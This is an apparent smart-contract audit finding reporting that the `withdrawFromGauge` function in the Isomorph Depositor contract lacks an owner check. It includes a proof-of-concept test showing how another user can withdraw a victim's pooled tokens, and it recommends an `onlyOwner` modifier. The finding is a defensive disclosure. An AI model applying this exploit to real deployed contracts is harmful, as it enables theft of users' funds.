 neumo

high

# Lack of access control in withdrawFromGauge allows any user to steal collateral

## Summary
Function `withdrawFromGauge` in `Depositor` contract transfers the `pooledTokens` associated to an `NFTId`. It does not have any kind of access control, so any user can pass any `NFTId` to the function and steal the collateral deposited by another user.

## Vulnerability Detail
When a user deposits through his Depositor contract by calling `depositToGauge`, it transfers to the gauge the amount to be deposited and calls the corresponding DepositorReceipt to mint an NFT that represents the user deposit.	This function has an `onlyOwner()` modifier meaning it can be only called by the owner of the contract. 
But when the user wants to withdraw from the gauge by calling `withdrawFromGauge` (directly or through calls to `partialWithdrawFromGauge` or `multiWithdrawFromGauge`) 
https://github.com/sherlock-audit/2022-11-isomorph/blob/main/contracts/Velo-Deposit-Tokens/contracts/Depositor.sol#L119-L127
there is no owner check, meaning any user can call the function, burn the NFT and receive the amount deposited corresponding to the receipt. The only requirement is that the depositor must be approved by the user as a spender of the NFT receipts (which could be backrun by a malicious user).

## Impact
High impact, any user can withdraw any token from a depositor, which has been approved by the owner to spend his NFT receipts.

## Code Snippet
The following test, added in the [Depositor.js](https://github.com/sherlock-audit/2022-11-isomorph/blob/main/contracts/Velo-Deposit-Tokens/test/Unit/Depositor.js) test file, shows how `alice` can withdraw `owner`'s token and receive all the pooled tokens from that receipt.
```solidity
it("Should withdraw from gauge with wrong user call", async function (){
	//setup deposit first

	AMMToken.approve(depositor.address, amount)

	// Owner deposits to gauge
	await depositor.connect(owner).depositToGauge(amount)
	rewards_address = await gauge.FakeRewards()

	before_NFT_owner = await depositReceipt.ownerOf(NFT_id)
	// We check NFT_id belongs to owner
	expect(before_NFT_owner).to.equal(owner.address)

	// We record the balance of tokens Alice has
	before_alice_tokens = await AMMToken.balanceOf(alice.address)

	// Owner approves depositor to use NFT_id 
	await depositReceipt.connect(owner).approve(depositor.address, NFT_id)
	// But Alice is the one calling withdrawFromGauge
	await depositor.connect(alice).withdrawFromGauge(NFT_id, [rewards_address])            

	// We record the balance of tokens Alice has after withdrawing another user's token
	after_alice_tokens = await AMMToken.balanceOf(alice.address)

	// Then we check the balance of Alice has increased exactly 'amount'
	expect(after_alice_tokens).to.equal(before_alice_tokens.add(amount))

});
```

## Tool used

Forge tests and manual Review

## Recommendation
Add an `onlyOwner` modifier to `withdrawFromGauge`.
